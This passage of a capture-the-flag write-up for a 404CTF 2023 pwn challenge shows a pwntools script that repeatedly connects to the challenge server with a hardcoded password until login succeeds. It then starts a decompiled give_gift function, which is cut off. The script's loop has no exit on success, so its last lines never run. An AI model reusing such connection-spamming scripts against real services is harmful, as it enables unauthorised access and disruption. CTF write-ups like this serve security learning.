 Code to spam requests:

```python
from pwn import *
import time

while True:
    #p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'6qzQbN(m>@KROp^1(Gh:'

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        #time.sleep(0.6)
        continue

print('terminate')
p.interactive()
```

![login](/assets/img/CTFs/404CTF2023/pwn/cache-cache_%3A_le_retour/login.png)

Now the give a gift function is executed.

Here is the give_a_gift function:

```c
undefined8 give_gift(void)
{
  __pid_t _Var1;
  int iVar2;
  size_t sVar3;
  undefined8 uVar4;
  long in_FS_OFFSET;
  int local_4b8;
  int local_4b4;
  char *local_4b0;
  size_t local_4a8;
  char *mystere_zip_str;
  char *surprise_txt_str;
  void *base64_decoded_input2;
  FILE *local_488;
  FILE *local_480;
  __ssize_t local_478;
  char *local_470;
  char *local_468;
  char *local_460;
  undefined8 local_458;
  char input1 [48];
  char input2 [1032];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
```